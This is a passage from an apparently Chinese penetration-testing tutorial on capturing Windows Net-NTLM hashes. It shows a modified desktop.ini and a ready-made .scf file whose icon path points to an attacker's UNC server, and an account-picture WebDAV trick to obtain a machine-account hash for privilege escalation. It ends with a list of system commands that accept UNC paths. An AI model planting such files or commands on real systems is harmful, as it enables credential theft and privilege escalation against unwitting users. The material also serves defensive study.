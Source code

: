 至此MS16-077的两个保护措施都能绕过，再遇到MS16-077之后的机子不妨试试这种方法。
### 图标
#### desktop.ini
> 文件夹底下都有个文件desktop.ini来指定文件夹图标之类的。默认不可见。去掉隐藏受保护的操作系统文件就可以看到
> 每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到desktop.ini，可以尝试更改图标，就可以看到了
> 将图标路径改成UNC路径，指向我们的服务器
![](https://p2.ssl.qhimg.com/t010a77d8e5b5f30c57.png)
![](https://p3.ssl.qhimg.com/t015d257a6f54d235c2.png)
当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm hash。
![](https://p0.ssl.qhimg.com/t0177cb454b7fb7506e.png)

#### scf 文件
只要一个文件底下含有scf后缀的文件,由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标。而IconFile是支持UNC路径的。以下是scf后缀的文件的格式
```
[Shell]
Command=2
IconFile=\\172.16.100.1\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```
新建test.scf，写入内容，放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的net-ntlm hash。
![](https://p2.ssl.qhimg.com/t01b937f566307adb94.png)
#### 用户头像
适用于Windows 10/2016/2019
在更改账户图片处
![](https://p2.ssl.qhimg.com/t019c8338b41bc63f6a.png)
用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问172.16.100.180，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个可以用来提权。后面会详细讲
### 系统命令携带UNC路径
这个比较鸡肋，都能执行命令了，干啥不行呢。但作为一种场景，也说明下。说不定有些限制的命令注入就是支持传进UNC路径呢。我平时在测试的时候一般都是用 dir \\ip\xxx来做测试的，很多cmd命令是支持传进UNC路径的，执行的时候我们就可以拿到用户的net-ntlm hash了。至于有哪些命令。这篇文章总结了一些命令,总结得挺全面的。 [内网渗透——针对hash的攻击](https://www.anquanke.com/post/id/177123)
```
net.exe use \hostshare 
attrib.exe \hostshare  
bcdboot.exe \hostshare  
bdeunlock.exe \hostshare  
cacls.exe \hostshare  
certreq.exe \hostshare #(noisy, pops an error dialog) 
certutil.exe \hostshare  
cipher.exe \hostshare  
ClipUp.exe -l \hostshare  
cmdl32.exe \hostshare  
cmstp.exe /s \hostshare  
colorcpl.exe \hostshare #(noisy, pops an error dialog)  
comp.exe /N=0 \hostshare \hostshare  
compact.exe \hostshare  
control.exe \hostshare  
convertvhd.exe -source \hostshare -destination \hostshare 
Defrag.exe \hostshare  
diskperf.exe \hostshare  
dispdiag.exe -out \hostshare  
doskey.exe /MACROFILE=\hostshare  
esentutl.exe /k \hostshare  
expand.exe \hostshare  
extrac32.exe \hostshare  
FileHistory.exe \hostshare #(noisy, pops a gui)  
findstr.exe * \hostshare  
fontview.exe \hostshare #(noisy, pops an error dialog)  
```